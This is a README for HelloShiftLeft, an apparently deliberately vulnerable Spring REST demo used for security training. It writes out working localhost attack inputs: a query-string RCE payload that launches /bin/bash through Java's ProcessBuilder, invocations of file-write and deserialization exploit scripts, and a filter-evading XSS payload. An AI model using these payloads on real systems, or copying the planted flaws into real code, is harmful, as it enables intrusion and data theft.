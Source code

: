 # HelloShiftLeft

This is a demo application which provides a real world representation of a REST service that uses a mix of convention and configuration to simulate a decent set of vulnerabilities exposed in the code. It includes scenarios such as sensitive data leaking to logs, data secrets leaks, authentication bypass, remote code execution, XSS vulnerabilites etc. The sample sensitive data is a mix of financial data such as account information, medical data of patients, and other PII data such as customer information. HelloShiftLeft also contains patterns/anti-patterns of how data is used/abused in interfaces or channels (to and from HTTP/TCP, third-party, database) that can lead to vulnerabilites. The application is built on the Spring Framework and exposes a series of endpoints and APIs for queries and simulating exploits.

## Build
 ```sh
 $ git clone https://github.com/ShiftLeftSecurity/HelloShiftLeft.git
 $ cd HelloShiftLeft
 $ mvn clean package
 ```
 
## Run
 ```sh
 $ java -jar target/hello-shiftleft-0.0.1.jar
```

## Exercise Vulnerabilites and Exposures
Once the application starts, vulnerabilites and exposures in it can be tested with API access patterns described below and through example scripts provided in the [exploits](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits) directory. These are summarized below:  

### Sensitive Data Leaks to Log

| URL | Purpose |
| --- | ------- |
| http://localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://localhost:8081/customers   | Returns JSON representation of all available Customer resources |
| http://localhost:8081/patients    | Returns JSON representation of all available patients in record |
| http://localhost:8081/account/1   | Returns JSON representation of Account based on Id (1) specified |
| http://localhost:8081/account     | Returns JSON representation of all available accounts and their details |

All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.


### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

[http://localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()](http://localhost:8081/search/user?foo=new%20java.lang.ProcessBuilder(%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27echo%203vilhax0r%3E%2Ftmp%2Fhacked%27%7D).start())

This creates a file `/tmp/hacked` with the content `3vilhax0r`

### Arbritary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:
```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```
This creates a file named `testfile` with `3vilhax0r` as its contents

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:
```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
```

### XSS

A reflected XSS vulnerability exists in the application and can be triggered using the _hidden_ `/debug` endpoint as follows:

[http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>](http://localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432<scriscriptpt>alert(1)</sscriptcript>)

It raises and alert dialogue and returns the Customer object data.

commit


